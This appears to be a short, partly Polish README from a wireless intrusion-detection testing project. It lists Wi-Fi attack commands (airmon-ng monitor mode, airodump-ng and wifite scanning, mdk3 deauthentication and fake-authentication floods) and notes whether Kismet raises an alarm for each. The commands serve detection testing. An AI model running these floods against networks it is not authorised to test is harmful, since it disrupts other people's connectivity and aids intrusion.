 ## Sybskrypcja na alerty z wykorzystaniem gniazda Eventbus

![](src/websocat.png)
***

# Ataki

## Creating airmon interface
```sh
airmon-ng check kill
``` 

```sh
airmon-ng start wlan0 
```

## Check if airmon interface works
```sh
airodump-ng wlan0mon
```

## Install mdks
```sh
apt-get install mdk3
```

## Network scanning 
```sh
iw <interface_name> scan
```
```sh
wifite --showb
``` 
Alarm nie zostaje wykryty przez kismet (prawdopodobnie przez zbyt małą częstotliwość wysyłania probe request)

### Deauthentication
```sh
mdk3 <iface> d –c <ch>
```
![](src/deauth_flood.png)
***

### Fake authenitcation
```sh
mdk3 <iface> a –a <bssid>
```
Tutaj rowniez alarm nie jest wykrywany
